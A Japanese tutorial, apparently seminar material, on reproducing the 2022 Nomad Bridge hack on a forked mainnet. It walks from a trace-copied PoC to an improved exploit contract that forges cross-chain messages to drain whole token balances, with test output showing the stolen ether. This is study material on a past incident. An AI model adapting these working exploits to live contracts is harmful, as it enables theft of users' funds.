

# How to Reproduce Attacks

実際に起こった攻撃を再現する手法について紹介します。
ここでは例として、「[On-Chain Investigations of Attacks](../attack-investigation)」の調査結果を使用して、Nomad Bridgeへの攻撃トランザクションの1つを再現実装してみます。

**目次**
- [攻撃を再現する目的](#攻撃を再現する目的)
- [トレーシング結果を直接利用するシンプルなPoCの作成例](#トレーシング結果を直接利用するシンプルなpocの作成例)
  - [チェーンのフォーク](#チェーンのフォーク)
  - [攻撃者アカウントのセットアップ](#攻撃者アカウントのセットアップ)
  - [攻撃コントラクトの処理の把握](#攻撃コントラクトの処理の把握)
  - [対話するコントラクトのインターフェースの実装](#対話するコントラクトのインターフェースの実装)
  - [攻撃コントラクトの実装](#攻撃コントラクトの実装)
  - [テストの実行](#テストの実行)
- [高度なPoCの作成例](#高度なpocの作成例)
  - [写経から高度なPoCへ](#写経から高度なpocへ)
  - [攻撃の原因調査](#攻撃の原因調査)
  - [`Message`の構造](#messageの構造)
  - [`BridgeMessage`の構造](#bridgemessageの構造)
  - [`Transfer`アクションの構成とフォーマット](#transferアクションの構成とフォーマット)
  - [トークンIDの構成とフォーマット](#トークンidの構成とフォーマット)
  - [`Replica`コントラクトへ渡すメッセージの構成](#replicaコントラクトへ渡すメッセージの構成)
  - [完成形と攻撃結果](#完成形と攻撃結果)

## 攻撃を再現する目的

まず攻撃を再現する前にその目的について説明します。

攻撃の再現は、もう少し具体的に言えば、攻撃が行われる前のチェーンをフォークして（≒ステートを使用して）、攻撃者の挙動を模倣することで、実際の被害をローカルで確認することと言えます。

ただ、実は攻撃を再現する**だけ**なら、Solidityがある程度書けて、PhalconなどのトランザクションエクスプローラーやFoundryの使い方さえ知っていれば難しくありません。
被害を受けたプロトコルの知識も、コントラクトに関する攻撃・脆弱性の知識も、ほとんど必要ありません。

なぜなら、トランザクションエクスプローラーのトレーシング結果を使用して、攻撃コントラクトが行うコールをただ写経すればいいからです。
これは実際にやってみるとわかります。
また、実際に世に公開されている再現PoCの中には、そういったただただトレーシング結果を写経した程度のものがあります。

そのような写経程度の再現PoCを作ることも、攻撃を理解する触りとしては大事ではありますが、大して面白くありません。
再現PoCを作る過程で、脆弱性、攻撃のロジック、プロトコルとその周辺知識を調査・理解して、さらにはより効率的な攻撃を構成できないか、どうしたら攻撃が防げていたか、類似の攻撃が他のプロトコルでも起こり得ないか、などを考察するほうが面白いです。
ですので、このゼミでは再現PoCを構築することはあくまでそういった理解や考察のための手段という立ち位置として扱っていきます。

以降は、まず写経程度のPoCを作ってその簡単さを理解してもらい、次により高度なPoCを作る流れを紹介します。

## トレーシング結果を直接利用するシンプルなPoCの作成例

では、攻撃トランザクションのトレーシング結果をそのまま写経した、シンプルなPoCを作成していきます。

### チェーンのフォーク

まずは、Foundryのテスト機能を使って攻撃が行われる前のチェーンをフォークします。
`vm.createSelectFork`関数で指定したチェーンの指定したブロックが含まれたあとのステートから始められます。
Nomad Bridgeへの攻撃トランザクション `0x61497a1a8a8659a06358e130ea590e1eed8956edbd99dbb2048cfb46850a8f17` が含まれたブロックのナンバーは`15259101`だったので、`15259100`をフォークします。

コントラクトは次のようになります。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test} from "forge-std/Test.sol";

contract NomadBridgeExploitTest is Test {
    function setUp() public {
        vm.createSelectFork("mainnet", 15259100);
    }
}
```

`mainnet`は`foundry.toml`で指定したRPCのエイリアスです。

```toml
[rpc_endpoints]
mainnet = "https://rpc.ankr.com/eth"
```

AnkrのフリーのRPCを使用しています。

### 攻撃者アカウントのセットアップ

次に攻撃者のアカウントをセットアップします。
`makeAddr`関数を使用すると、自動的に指定したラベルを付与したアドレスを生成してくれます。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test} from "forge-std/Test.sol";

contract NomadBridgeExploitTest is Test {
    address exploiter;

    function setUp() public {
        vm.createSelectFork("mainnet", 15259100);
        exploiter = makeAddr("exploiter");
    }
}
```

ここでは、`exploiter`をラベルとしたアドレスを`exploiter`変数にセットしています。

そして、攻撃者の攻撃処理を実装する`testExploit`関数を書いていきます。
`vm.startPrank`関数を使うと、`msg.sender`と`tx.origin`を設定できるので、それを`exploiter`に設定します。
`vm.stopPrank`関数まで、このチートコードが適用されます。

```solidity
    function testExploit() public {
        vm.startPrank(exploiter, exploiter);
        // TODO
        vm.stopPrank();
    }
```

### 攻撃コントラクトの処理の把握

PhalconでExpandを`2`にしたInvocation Flowを見てください。


この`Exploit Impl Contract`の処理が、攻撃コントラクトの全体の処理だと前の調査でわかっています。
これを`Exploit`コントラクトに書いていきましょう。

### 対話するコントラクトのインターフェースの実装

攻撃コントラクトが対話する必要のあるコントラクトをコールするために、それらコントラクトのインターフェースを実装します。
攻撃トランザクションにおいてコールしているコントラクトは4つで、`UpgradeBeaconProxy`（`Replica`のプロキシ）、`WBTC`、`Uniswap V2: WBTC`、`WETH`です。

インターフェースは、上記のInvocation Flowの通りに実装すればよいです。
インターフェース名や、変数名をつけるかどうか、返り値をつけるかどうかなどは自由です。
例えば、次のようになります。

```solidity
interface IReplica {
    function process(bytes memory _message) external returns (bool _success);
}

interface IWBTC {
    function transfer(address _to, uint256 _value) external returns (bool);
}

interface IUniswapV2Pair {
    function swap(uint256 amount0Out, uint256 amount1Out) external;
}

interface IWETH {
    function withdraw(uint256 wad) external;
}
```

そしてこれらコントラクトを`Exploit`コントラクトの`exploit`関数で使用できるようにします。
Invocation Flowからアドレスをコピーして、次のようにします。

```solidity
contract Exploit {
    function exploit() external {
        IReplica replica = IReplica(0x5D94309E5a0090b165FA4181519701637B6DAEBA);
        IWBTC wbtc = IWBTC(0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599);
        IUniswapV2Pair wbtcWeth = IUniswapV2Pair(0xBb2b8038a1640196FbE3e38816F3e67Cba72D940);
        IWETH weth = IWETH(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    }
}
```

Invocation Flowからコピーできるアドレスはチェックサムが効いておらず、コンパイルするときにエラーになるので、次のように`cast to-check-sum-address`コマンドを使用するなどして、チェックサムを有効にする必要があります。

```
$ cast to-check-sum-address 0x5d94309e5a0090b165fa4181519701637b6daeba
0x5D94309E5a0090b165FA4181519701637B6DAEBA
```

### 攻撃コントラクトの実装

次は攻撃コントラクトに攻撃処理を実装していきます。
これも基本的にInvocation Flowの通りに実装していけばよいですが、`process`関数に与えるクロスチェーンメッセージは、攻撃者のアドレスに送金するものなので、このアドレスを自身が作成した`Exploit`コントラクトのアドレスに変える必要があります。

コールデータは以下であり、

```
6265616d000000000000000000000000d3dfd3ede74e0dcebc1aa685e151332857efce2d000013d60065746800000000000000000000000088a69b4e698a4b090df6cf5bd7b2d47325ad30a3006574680000000000000000000000002260fac5e5542a773aa44fbcfedf7c193bc2c59903000000000000000000000000f57113d8f6ff35747737f026fe0b37d4d7f4277700000000000000000000000000000000000000000000000000000002540be400e6e85ded018819209cfb948d074cb65de145734b5b0852e4a5db25cac2b8c39a
```

`f57113d8f6ff35747737f026fe0b37d4d7f42777`の部分が攻撃者のコントラクトアドレスなので、これを書き換えます。
よって、`process`関数を呼び出す部分は次のようになります。


```solidity
replica.process(
	bytes.concat(
		hex"6265616d000000000000000000000000d3dfd3ede74e0dcebc1aa685e151332857efce2d000013d60065746800000000000000000000000088a69b4e698a4b090df6cf5bd7b2d47325ad30a3006574680000000000000000000000002260fac5e5542a773aa44fbcfedf7c193bc2c59903000000000000000000000000",
		bytes20(address(this)),
		hex"00000000000000000000000000000000000000000000000000000002540be400e6e85ded018819209cfb948d074cb65de145734b5b0852e4a5db25cac2b8c39a"
	)
);
```

また、`Exploit`コントラクトはEtherを受け取らなければならないので、`receive`関数を実装する必要があります。

最終的に`Exploit`コントラクトは次のようになります。

```solidity
contract Exploit {
    function exploit() external {
        IReplica replica = IReplica(0x5D94309E5a0090b165FA4181519701637B6DAEBA);
        IWBTC wbtc = IWBTC(0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599);
        IUniswapV2Pair wbtcWeth = IUniswapV2Pair(0xBb2b8038a1640196FbE3e38816F3e67Cba72D940);
        IWETH weth = IWETH(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

        replica.process(
            bytes.concat(
                hex"6265616d000000000000000000000000d3dfd3ede74e0dcebc1aa685e151332857efce2d000013d60065746800000000000000000000000088a69b4e698a4b090df6cf5bd7b2d47325ad30a3006574680000000000000000000000002260fac5e5542a773aa44fbcfedf7c193bc2c59903000000000000000000000000",
                bytes20(address(this)),
                hex"00000000000000000000000000000000000000000000000000000002540be400e6e85ded018819209cfb948d074cb65de145734b5b0852e4a5db25cac2b8c39a"
            )
        );
        wbtc.transfer(address(wbtcWeth), 10000000000);
        wbtcWeth.swap(0, 1084116533510535209745, address(this), "");
        weth.withdraw(1084116533510535209745);
        (bool success,) = payable(msg.sender).call{value: address(this).balance}("");
        require(success);
    }

    receive() external payable {}
}
```

実際の攻撃では、`Exploit Impl Contract`を使っていたり、少額のEtherを送金していたりしていますが、前回の調査結果からわかるように、それらは必要ないので無くしています。

### テストの実行

攻撃が実装できたので、`exploiter`のアドレスの残高が攻撃前と攻撃後でどのように変化したか見てみます。

`log_named_decimal_uint`イベントをemitすれば良いです。

```solidity
    function testExploit() public {
        emit log_named_decimal_uint("balance", exploiter.balance, 18);

        vm.startPrank(exploiter, exploiter);
        new Exploit().exploit();
        vm.stopPrank();

        emit log_named_decimal_uint("balance", exploiter.balance, 18);
    }
```

第3引数にdecimalsであり、`18`を指定するとweiをetherにして変換してくれます。
これは1 ether = 10^18 weiであるためです。

テストを実行すると、結果は以下のようになります。

```
$ forge test --mc NomadBridgeExploitTest -vvv
[⠔] Compiling...
[⠒] Compiling 1 files with 0.8.21
[⠒] Solc 0.8.21 finished in 1.53s
Compiler run successful!

Running 1 test for course/reproducing-attack/poc/NomadBridgeExploitSimple.t.sol:NomadBridgeExploitTest
[PASS] testExploit() (gas: 466192)
Logs:
  balance: 0.000000000000000000
  balance: 1084.116533510535209745

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.03s
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

攻撃者が1084 etherを不正に獲得したことがわかります。

以上でトレーシング結果を直接利用するシンプルなPoCを作成できました。

## 高度なPoCの作成例

### 写経から高度なPoCへ

シンプルなPoCを作成してわかったように、単にトレーシング結果を写経するだけなら簡単にPoCを作成できることが理解できると思います。
また、これくらいであれば調査をほとんどせずとも作成できます。

実際、Nomad Bridgeは不特定多数の攻撃者により攻撃されました。
というのも、最初の攻撃者がそこまでNomad Bridgeの仕組みやSolidityを理解していなかったのか、まず100 WBTCしか盗まなかったからです。
これは、過去の100 WBTC送金を、攻撃者自身のアドレスに書き換えただけに過ぎません。

その最初の攻撃トランザクションがブロードキャストされてから、botや他の攻撃者、また多数のホワイトハットが次々と攻撃を開始し、攻撃は数時間続き、最終的に1億9000万ドルの資金が流出しました。

このように、攻撃のロジックがよくわからない状態で、自分のアドレスに書き換えて攻撃トランザクションをブロードキャストした攻撃者やWhite Hatも多くいました。

しかし、もし最初の攻撃者に知識と技術があれば、次に説明するPoCで全てのトークンを一度に全て引き出すことも可能でした。
ここでは、そのPoCを作成する手法について紹介します。
Nomad Bridge固有の知識がたくさん出てきますが、それについて詳しく追う必要はありません。
それよりも、攻撃をどのように効果的にしていくかに注目してください。

### 攻撃の原因調査

高度なPoCを作成するには、攻撃トランザクションやプロトコルを調査して、攻撃の原因を特定する必要があります。

調査は既に「[On-Chain Investigations of Attacks](../attack-investigation)」で済ませている通りなので、ここでは改めて説明はしません。
簡単におさらいすると、攻撃の根本的な原因はアップグレード時の考慮漏れであり、それにより任意のクロスチェーンメッセージを受理するようになっていたということです。

### `Message`の構造

任意のクロスチェーンメッセージを受理できたならば、攻撃者は全てのトークンを1つのトランザクションで一度に引き出すことも可能なはずです。
実際それは可能でした。

しかし、攻撃者は（おそらく）技術力が乏しかったため、これに気づきませんでした。
不幸中の幸いです。

そのような効果的な攻撃を行うには、まずはクロスチェーンメッセージの構造について知る必要があります。
前に調査した通り、Nomadにおけるクロスチェーンメッセージは、`TypedMemView`というライブラリで各フィールドを取り出していました。

そして、元の構造は`Message`ライブラリにあります。
これは`Replica`コントラクトにおいて、下記のコードで`bytes29`に対して`TypedMemView`と`Message`の関数がアタッチされていることからわかります。

```solidity
    using TypedMemView for bytes;
    using TypedMemView for bytes29;
    using Message for bytes29;
```

改めて`TypedMemView`について説明すると、柔軟にメモリにアクセスするライブラリです。
`bytes memory`は、範囲のインデックスを効率的に作成できなかったり、コピーしないとスライスが作成できなかったりといった問題点を抱えており、これを解決するためのものです。
`bytes29`が使用されているのは、メモリへの参照をスタックに載せるために、あまり使用されていない`bytes29`型を採用しただけに過ぎません。
Nomad Bridgeのようなクロスチェーンブリッジにおいては、異なる型・構造体をエンコードした`bytes`型のクロスチェーンメッセージを扱わなくてはなりませんが、そのデコード等がSolidityでは面倒なので使用されています。
が、この説明でよくわからなくても大丈夫です。
`TypedMemView`について詳しくは知らなくてもなんとなくで問題ありません。

`Message`ライブラリを確認すると次のようになっています。
EtherscanやGitHubに実装があります。

```solidity
/**
 * @title Message Library
 * @author Illusory Systems Inc.
 * @notice Library for formatted messages used by Home and Replica.
 **/
library Message {
    using TypedMemView for bytes;
    using TypedMemView for bytes29;

    // Number of bytes in formatted message before `body` field
    uint256 internal constant PREFIX_LENGTH = 76;

    /**
     * @notice Returns formatted (packed) message with provided fields
     * @param _originDomain Domain of home chain
     * @param _sender Address of sender as bytes32
     * @param _nonce Destination-specific nonce
     * @param _destinationDomain Domain of destination chain
     * @param _recipient Address of recipient on destination chain as bytes32
     * @param _messageBody Raw bytes of message body
     * @return Formatted message
     **/
    function formatMessage(
        uint32 _originDomain,
        bytes32 _sender,
        uint32 _nonce,
        uint32 _destinationDomain,
        bytes32 _recipient,
        bytes memory _messageBody
    ) internal pure returns (bytes memory) {
        return
            abi.encodePacked(
                _originDomain,
                _sender,
                _nonce,
                _destinationDomain,
                _recipient,
                _messageBody
            );
    }

(snip)
```

これからわかるように、クロスチェーンメッセージは次のようなフィールドを`abi.encodePacked`した構造になっています。

|    型     |     フィールド名     |
| :-------: | :------------------: |
| `uint32`  |   `_originDomain`    |
| `bytes32` |      `_sender`       |
| `uint32`  |       `_nonce`       |
| `uint32`  | `_destinationDomain` |
| `bytes32` |     `_recipient`     |
|  `bytes`  |    `_messageBody`    |

では、実際に攻撃に使われたメッセージを見てみましょう。

```
0x6265616d000000000000000000000000d3dfd3ede74e0dcebc1aa685e151332857efce2d000013d60065746800000000000000000000000088a69b4e698a4b090df6cf5bd7b2d47325ad30a3006574680000000000000000000000002260fac5e5542a773aa44fbcfedf7c193bc2c59903000000000000000000000000f57113d8f6ff35747737f026fe0b37d4d7f4277700000000000000000000000000000000000000000000000000000002540be400e6e85ded018819209cfb948d074cb65de145734b5b0852e4a5db25cac2b8c39a
```

これから各フィールドの値がわかります。
`Message`ライブラリの関数を使っても値を取り出してもいいですし、自らの目でデコードしてもいいです。
今回は自らの目でデコードしました。

|    型     |     フィールド名     | 値                                                                                                                                                                                                                                                                           |
| :-------: | :------------------: | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `uint32`  |   `_originDomain`    | `6265616d`(`beam`)                                                                                                                                                                                                                                                           |
| `bytes32` |      `_sender`       | `000000000000000000000000d3dfd3ede74e0dcebc1aa685e151332857efce2d`                                                                                                                                                                                                           |
| `uint32`  |       `_nonce`       | `000013d6`                                                                                                                                                                                                                                                                   |
| `uint32`  | `_destinationDomain` | `00657468`(`eth`)                                                                                                                                                                                                                                                            |
| `bytes32` |     `_recipient`     | `00000000000000000000000088a69b4e698a4b090df6cf5bd7b2d47325ad30a3`                                                                                                                                                                                                           |
|  `bytes`  |    `_messageBody`    | `006574680000000000000000000000002260fac5e5542a773aa44fbcfedf7c193bc2c59903000000000000000000000000f57113d8f6ff35747737f026fe0b37d4d7f4277700000000000000000000000000000000000000000000000000000002540be400e6e85ded018819209cfb948d074cb65de145734b5b0852e4a5db25cac2b8c39a` |

MoonbeamからEthereumへのクロスチェーンメッセージで、アドレス`88a69b4e698a4b090df6cf5bd7b2d47325ad30a3`に`_messageBody`が送信されそうです。

また、アドレス`88a69b4e698a4b090df6cf5bd7b2d47325ad30a3`は`Nomad: ERC20 Bridge`であることがわかっています。
そして、`Nomad: ERC20 Bridge`は`UpgradeBeaconProxy`であり、そのロジックコントラクトは`BridgeRouter`です。

`BridgeRouter`の`handle`関数でこのメッセージがどう処理されるのか見てみましょう。

```solidity
    /**
     * @notice Handles an incoming message
     * @param _origin The origin domain
     * @param _nonce The unique identifier for the message from origin to destination
     * @param _sender The sender address
     * @param _message The message
     */
    function handle(
        uint32 _origin,
        uint32 _nonce,
        bytes32 _sender,
        bytes memory _message
    ) external override onlyReplica onlyRemoteRouter(_origin, _sender) {
        // parse tokenId and action from message
        bytes29 _msg = _message.ref(0).mustBeMessage();
        bytes29 _tokenId = _msg.tokenId();
        bytes29 _action = _msg.action();
        // handle message based on the intended action
        if (_action.isTransfer()) {
            _handleTransfer(_origin, _nonce, _tokenId, _action, false);
        } else if (_action.isFastTransfer()) {
            _handleTransfer(_origin, _nonce, _tokenId, _action, true);
        } else {
            require(false, "!valid action");
        }
    }
```

引数`_message`が`_messageBody`になります。
そしてこの`_message`にも`TypedMemView`がアタッチされており、

```solidity
    using TypedMemView for bytes;
    using TypedMemView for bytes29;
    using BridgeMessage for bytes29;
```

このコードから`BridgeMessage`が実態だとわかります。

### `BridgeMessage`の構造

`BridgeMessage`ライブラリの前半は次のようになっています。

```solidity
library BridgeMessage {
    // ============ Libraries ============

    using TypedMemView for bytes;
    using TypedMemView for bytes29;

    // ============ Enums ============

    // WARNING: do NOT re-write the numbers / order
    // of message types in an upgrade;
    // will cause in-flight messages to be mis-interpreted
    enum Types {
        Invalid, // 0
        TokenId, // 1
        Message, // 2
        Transfer, // 3
        FastTransfer // 4
    }

    // ============ Structs ============

    // Tokens are identified by a TokenId:
    // domain - 4 byte chain ID of the chain from which the token originates
    // id - 32 byte identifier of the token address on the origin chain, in that chain's address format
    struct TokenId {
        uint32 domain;
        bytes32 id;
    }

    // ============ Constants ============

    uint256 private constant TOKEN_ID_LEN = 36; // 4 bytes domain + 32 bytes id
    uint256 private constant IDENTIFIER_LEN = 1;
    uint256 private constant TRANSFER_LEN = 97; // 1 byte identifier + 32 bytes recipient + 32 bytes amount + 32 bytes detailsHash

    // ============ Modifiers ============

    /**
     * @notice Asserts a message is of type `_t`
     * @param _view The message
     * @param _t The expected type
     */
    modifier typeAssert(bytes29 _view, Types _t) {
        _view.assertType(uint40(_t));
        _;
    }

    // ============ Internal Functions ============

    /**
     * @notice Checks that Action is valid type
     * @param _action The action
     * @return TRUE if action is valid
     */
    function isValidAction(bytes29 _action) internal pure returns (bool) {
        return isTransfer(_action) || isFastTransfer(_action);
    }

    /**
     * @notice Checks that view is a valid message length
     * @param _view The bytes string
     * @return TRUE if message is valid
     */
    function isValidMessageLength(bytes29 _view) internal pure returns (bool) {
        uint256 _len = _view.len();
        return _len == TOKEN_ID_LEN + TRANSFER_LEN;
    }

    /**
     * @notice Formats an action message
     * @param _tokenId The token ID
     * @param _action The action
     * @return The formatted message
     */
    function formatMessage(bytes29 _tokenId, bytes29 _action)
        internal
        view
        typeAssert(_tokenId, Types.TokenId)
        returns (bytes memory)
    {
        require(isValidAction(_action), "!action");
        bytes29[] memory _views = new bytes29[](2);
        _views[0] = _tokenId;
        _views[1] = _action;
        return TypedMemView.join(_views);
    }

(snip)
```

長かったので、一旦後半は省略しましたが、`formatMessage`関数でエンコードされたものが、`_messageBody`になっていそうです。
そして、その実態は、`_tokenId`と`_action`という2つの`TypedMemView`のビューを結合したものだとわかります。

また、以下の`Types`から、おそらく`Transfer`か`FastTransfer`によって送金処理が行われたのではないかと推測できます。

```
    enum Types {
        Invalid, // 0
        TokenId, // 1
        Message, // 2
        Transfer, // 3
        FastTransfer // 4
    }
```

後は適当に`_tokenId`と`_action`を構成できれば良さそうです。
後半に`formatTransfer`関数と`formatTokenId`関数があります。

```solidity
    /**
     * @notice Formats Transfer
     * @param _to The recipient address as bytes32
     * @param _amnt The transfer amount
     * @param _detailsHash The hash of the token name, symbol, and decimals
     * @return
     */
    function formatTransfer(
        bytes32 _to,
        uint256 _amnt,
        bytes32 _detailsHash
    ) internal pure returns (bytes29) {
        return
            abi.encodePacked(Types.Transfer, _to, _amnt, _detailsHash).ref(0).castTo(
                uint40(Types.Transfer)
            );
    }
```

```solidity
    /**
     * @notice Creates a serialized Token ID from components
     * @param _domain The domain
     * @param _id The ID
     * @return The formatted Token ID
     */
    function formatTokenId(uint32 _domain, bytes32 _id)
        internal
        pure
        returns (bytes29)
    {
        return
            abi.encodePacked(_domain, _id).ref(0).castTo(uint40(Types.TokenId));
    }
```

これらを使って、指定したトークンを全額引き出すメッセージを作れそうです。

### `Transfer`アクションの構成とフォーマット

まず、`formatTransfer`を使用して、`Transfer`アクションを作成しましょう。

`_to`には攻撃コントラクトのアドレスを入れればよく、`_amnt`はブリッジが所持するトークン残高をそのまま使用できます。
`_detailsHash`は何でしょうか？

`_detailsHash`のコメントを読むと、トークン名とシンボルとdecimalsのハッシュだとわかります。
このハッシュを構成する関数が、ライブラリにあります。

```solidity
    /**
     * @notice Formats the keccak256 hash of the token details
     * Token Details Format:
     *      length of name cast to bytes - 32 bytes
     *      name - x bytes (variable)
     *      length of symbol cast to bytes - 32 bytes
     *      symbol - x bytes (variable)
     *      decimals - 1 byte
     * @param _name The name
     * @param _symbol The symbol
     * @param _decimals The decimals
     * @return The Details message
     */
    function getDetailsHash(
        string memory _name,
        string memory _symbol,
        uint8 _decimals
    ) internal pure returns (bytes32) {
        return
            keccak256(
                abi.encodePacked(
                    bytes(_name).length,
                    _name,
                    bytes(_symbol).length,
                    _symbol,
                    _decimals
                )
            );
    }

```

これをそのまま利用すればよいでしょう。

トークンの変数を`token`とすれば、`Transfer`アクションのビューは次のように構成できます。

```solidity
bytes29 action = BridgeMessage.formatTransfer(
	bytes32(uint256(uint160(address(this)))),
	token.balanceOf(proxyAddress),
	BridgeMessage.getDetailsHash(token.name(), token.symbol(), token.decimals())
);
```

### トークンIDの構成とフォーマット

次はトークンIDのビューを作成します。

改めて`formatTokenId`関数は次のようになっています。

```solidity
    /**
     * @notice Creates a serialized Token ID from components
     * @param _domain The domain
     * @param _id The ID
     * @return The formatted Token ID
     */
    function formatTokenId(uint32 _domain, bytes32 _id)
        internal
        pure
        returns (bytes29)
    {
        return
            abi.encodePacked(_domain, _id).ref(0).castTo(uint40(Types.TokenId));
    }
```

ここでのドメインは送信先のドメインでありチェーンです。
そしてIDはトークンのIDです。

トークンのIDはどこから取得すればよいのでしょうか？

Nomad Bridgeでは、ブリッジルーターがトークンレジストリを持っています。
その`TokenRegistry`コントラクトに`getTokenId`関数があり、この関数がトークンアドレスに対応する（ドメインと）トークンIDを取得できます。

```solidity
    /**
     * @notice Return tokenId for a local token address
     * @param _local the local address of the token contract (representation or canonical)
     * @return _domain canonical domain
     * @return _id canonical identifier on that domain
     */
    function getTokenId(address _local)
        external
        view
        override
        returns (uint32 _domain, bytes32 _id)
    {
        BridgeMessage.TokenId memory _tokenId = representationToCanonical[
            _local
        ];
        if (_tokenId.domain == 0) {
            _domain = _localDomain();
            _id = TypeCasts.addressToBytes32(_local);
        } else {
            _domain = _tokenId.domain;
            _id = _tokenId.id;
        }
    }
```

これを呼び出せば良いでしょう。
よって、以下のようにトークンIDのビューを構成できます。

```solidity
(uint32 domain, bytes32 id) = tokenRegistry.getTokenId(tokenAddress);
bytes29 tokenId = BridgeMessage.formatTokenId(domain, id);
```

### `Replica`コントラクトへ渡すメッセージの構成

`Transfer`アクションとトークンIDのビューを作成できたので、送金を行うブリッジメッセージを構成できるようになりました。
そして、このブリッジメッセージを用いて`Message`にフォーマットすることで、`Replica`コントラクトへ渡すメッセージを構築できるようになります。
以下のようになります。

```solidity
bytes memory rawBridgeMessage = BridgeMessage.formatMessage(tokenId, action);

bytes memory rawMessage = Message.formatMessage(
	1650811245, // originDomain
	bytes32(uint256(uint160(prevBridgeRouterAddress))), // sender
	0, // nonce
	6648936, // destinationDomain
	bytes32(uint256(uint160(proxyAddress))), // recipient
	rawBridgeMessage
);
```

### 完成形と攻撃結果

あとは各トークンに対して送金を行うクロスチェーンメッセージを構成し、`Replica`コントラクトの`process`関数を介して実行すれば、指定した全てのトークンを奪取できます。

例えば以下のようになります。

```solidity
contract NomadBridgeExploit {
    using TypedMemView for bytes;
    using TypedMemView for bytes29;
    using BridgeMessage for bytes29;
    using Message for bytes29;

    address constant replicaAddress = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
    address constant proxyAddress = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3; // BridgeRouter
    address constant prevBridgeRouterAddress = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;

    IUniswapV2Router02 constant uniswapRouter = IUniswapV2Router02(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);
    address constant wethAddress = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function exploit(address[] calldata tokens) public {
        IReplica replica = IReplica(replicaAddress);
        IBridgeRouter bridgeRouter = IBridgeRouter(proxyAddress);
        ITokenRegistry tokenRegistry = bridgeRouter.tokenRegistry();

        for (uint256 i = 0; i < tokens.length; i++) {
            address tokenAddress = tokens[i];
            ERC20 token = ERC20(tokenAddress);

            (uint32 domain, bytes32 id) = tokenRegistry.getTokenId(tokenAddress);
            // Note: domain = destinationDomain

            bytes29 action = BridgeMessage.formatTransfer(
                bytes32(uint256(uint160(address(this)))),
                token.balanceOf(proxyAddress),
                BridgeMessage.getDetailsHash(token.name(), token.symbol(), token.decimals())
            );
            bytes29 tokenId = BridgeMessage.formatTokenId(domain, id);
            bytes memory rawBridgeMessage = BridgeMessage.formatMessage(tokenId, action);

            bytes memory rawMessage = Message.formatMessage(
                1650811245, // originDomain
                bytes32(uint256(uint160(prevBridgeRouterAddress))), // sender
                0, // nonce
                6648936, // destinationDomain
                bytes32(uint256(uint160(proxyAddress))), // recipient
                rawBridgeMessage
            );

            replica.process(rawMessage);

            token.approve(address(uniswapRouter), type(uint256).max);
            address[] memory path = new address[](2);
            path[0] = tokenAddress;
            path[1] = wethAddress;
            uniswapRouter.swapExactTokensForETH(token.balanceOf(address(this)), 0, path, msg.sender, type(uint256).max);
        }
    }
}
```

全体のコードは https://github.com/minaminao/defi-exploits/tree/main/src/20220801_NomadBridge にあります。

Uniswapで不正に取得したトークンをEtherにスワップしています。

この攻撃をテストします。
次のようにWBTCとUSDCを対象としてテストを実行してみます。

```solidity
contract NomadBridgeExploitTest is Test {
    using TypedMemView for bytes;
    using TypedMemView for bytes29;
    using BridgeMessage for bytes29;
    using Message for bytes29;

    address attackerAddress = address(10);
    NomadBridgeExploit exploit;

    ERC20 wbtc = ERC20(0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599);
    ERC20 usdc = ERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);

    function setUp() public {
        vm.createSelectFork("mainnet", 15259100);
        exploit = new NomadBridgeExploit();
    }

    function testExploit() public {
        vm.startPrank(attackerAddress, attackerAddress);
        address[] memory tokens = new address[](2);
        tokens[0] = address(wbtc);
        tokens[1] = address(usdc);
        exploit.exploit(tokens);
        emit log_named_uint("attacker's Ether balance", attackerAddress.balance / 1 ether);
        assertTrue(attackerAddress.balance > 0);
        vm.stopPrank();
    }
}
```

以下の結果が得られます。

```
[PASS] testExploit() (gas: 491400)
Logs:
  attacker's Ether balance: 25147
```

25147 Etherを不正に取得できたことがわかります。
最初の攻撃者は1000 Etherだったので、WBTCとUSDCを全て排出するだけでも25倍も差があります。

完成まで結構端折ったのでところどころ疑問は残るかもしれませんが、このようにより効果的な攻撃を実装することを通して、プロトコルやライブラリ、Solidityの知識を学ぶことができます。
